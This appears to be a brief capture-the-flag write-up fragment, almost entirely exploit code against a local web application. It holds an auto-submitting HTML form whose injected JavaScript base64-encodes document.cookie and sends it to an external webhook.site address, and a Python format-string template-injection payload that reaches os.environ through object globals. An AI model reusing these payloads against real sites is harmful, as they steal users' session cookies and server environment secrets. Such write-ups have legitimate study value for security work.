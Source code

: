 ```
<form method='POST' action='http://127.0.0.1:5000/your-name#behindthename-redirect'>
    <input name=name value='\".substring(0,0)+`#`;x=`//webhook.site/df233a61-4a57-4ce8-9f2b-99f60f8cdd94/?x=`;fetch(x+btoa(document.cookie))//' />
    <input type=submit />
</form>
<script>window.onload = function() { document.forms[0].submit() }</script>
```

Format string SSTI. We had to use property access only because we cant do function call in format string:
```
{0.__globals__[app].__class__.__bases__[0].__dict__[__init__].__globals__[sys].modules[os].environ}
```
